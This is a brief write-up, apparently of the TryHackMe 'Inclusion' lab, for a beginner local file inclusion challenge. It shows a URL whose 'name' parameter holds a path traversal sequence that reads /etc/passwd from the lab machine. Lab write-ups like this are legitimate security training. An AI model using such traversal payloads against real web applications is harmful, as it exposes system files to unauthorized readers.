A beginner level LFI challenge

https://tryhackme.com/room/inclusion

# Inclusion

##################################
				Cosmin Tibuleac | 23.04.2022
##################################


## LFI

The article from the photo, is vulnerable to local file inclusion:

![[Pasted image 20220423142541.png]]

Using the following we can read the etc/passwd content: 

*http://10.10.181.66/article?name=../../../../../../../../../../../etc/passwd*
